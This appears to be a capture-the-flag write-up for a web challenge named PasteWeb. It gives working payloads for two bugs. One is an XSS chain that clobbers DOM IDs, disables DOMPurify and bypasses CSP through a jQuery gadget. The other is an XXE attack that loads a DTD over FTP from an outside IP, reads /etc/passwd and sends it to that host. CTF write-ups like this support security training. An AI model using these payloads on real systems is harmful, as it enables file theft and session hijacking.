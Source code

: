 # PasteWeb

## Bug 1: XSS (hard)

### Payload

Create a paste with the following title:
```
<iframe id="ps"></iframe><script>
```
and the following content:
```
a<form id="fb"><input name="ownerDocument"/><script>alert(document.cookie);</script></form>
```

and access it.

### Idea
1. unfiltered output at title, recreate unsandboxed iframe with same DOM ID (`ps`)
2. `<script>` has highest priority in HTML, use `<script>` to disable DOMPurify
3. Bug in paste.html js -> try catch doesn't halt execution
4. Create element with same DOM Element ID `fb` to mess up with js queryselector
5. jQuery Script Gadget to bypass CSP Strict-Dynamic (https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf) (https://github.com/jquery/jquery/blob/30e1bfbdcb0ff658f1fa128b72480194e8ecb926/src/manipulation.js#L103)

## Bug 2: XXE (easy)

### Payload

```
POST https://pasteweb.corp.geegle.org/api/bugreport/csp

<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "ftp://157.230.213.14/ev2.xml">
%sp;
]>
<test></test>
```

```
ftp://157.230.213.14/ev2.xml

<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://157.230.213.14/?%data;'>">
%param1;
```

### Idea
XXE, use FTP to bypass HTTP(s) filters

## author
adamyi
